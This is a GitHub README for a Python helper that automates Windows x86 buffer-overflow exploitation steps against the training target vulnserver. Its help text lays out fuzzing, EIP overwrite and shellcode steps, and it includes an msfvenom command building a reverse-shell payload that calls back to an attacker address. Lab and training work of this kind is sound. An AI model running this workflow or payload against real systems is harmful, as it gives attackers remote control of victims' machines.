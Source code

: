 # OverflowHelper
OverflowHelper aids in buffer overflow development on Windows x86 architecture. This script was tested on vulnserver on 32-bit a Windows 7 machine.

## Usage:

Clone repository:
```
git clone https://github.com/rhuss623/OverflowHelper.git
```

Change permissions:
```
cd OverflowHelper
chmod u+x overflow_helper.py
```

Execute script with arguments (described in "Help")
```
python overflow_helper.py
```
Further instructions are enumerated in the "help" instructions (provided below). 

Note that several sections of the script require hard-coded revision, including:
The subtraction of bad characters frrom the badchars payload in program #4 and the final shell payload in program #6 

## Help:

Here follows the "help" instructions, accessible via `-h`


Buffer Overflow Helper

positional arguments:
  host              Remote target host, e.g. 10.10.1.14
  port              Remote target port, e.g. 9999
  function          Function used in buffer overflow attempt, e.g. TRUN
  program           Enter a number, 1-6, as argument: 
                    
                    1. Fuzzing 
                    2. Identifying Offset 
                    	REQUIRES -pattern 
                    3. Overwriting EIP 
                    	REQUIRES -offset
                    4. Identify Bad Characters 
                    	REQUIRES -offset
                    5. Return Address 
                    	REQUIRES -offset && -ret
                    6. Final Payload 
                    	REQUIRES -offset && -ret && -pay
                    
                    ********************************
                    Suggested additional resources:
                    
                    Pattern creation (Identifying offset):
                    	pattern_create.rb
                    	pattern_offset.rb
                    
                    Locating return address:
                    	mona.py
                    	nasm_shell.rb
                    
                    Creating payload:
                    	msfvenom 
                    ********************************
                    
                    Happy Hacking you Hackney Hip-Swaying Hokey Pokers :)
                    

optional arguments:
  -h, --help        show this help message and exit
  -pattern PATTERN  Use w/ PROGRAM 2
                    
                    Pattern created using pattern-create.rb
                    
                    On kali, this is the output from: 
                    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number from fuzzing phase> 
                    
                    To identify the offset, enter the characters in EIP into:
                    
                    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number> -q <EIP characters>
                    
  -offset OFFSET    Use w/ PROGRAMS 3, 4, 5, and 6
                    
                    Offset value: e.g. 2020
                    
  -ret RET          Use w/ PROGRAMS 5 and 6
                    
                    Enter return address as it will be entered in EIP
                    
                    e.g.,for return address 625011af, one might enter \\xaf\\x11\\x50\\x62
                    
  -pay PAY          Use w/ PROGRAM 6
                    
                    Enter shellcode
                    
                    e.g. Output from command:
                    
                    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.147 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "<INSERT BAD CHARS HERE e.g. null byte: \x00>"
                    
  -nops NOPS        Use w/ PROGRAM 6
                    
                    Enter number of nops preceding payload, e.g. 32
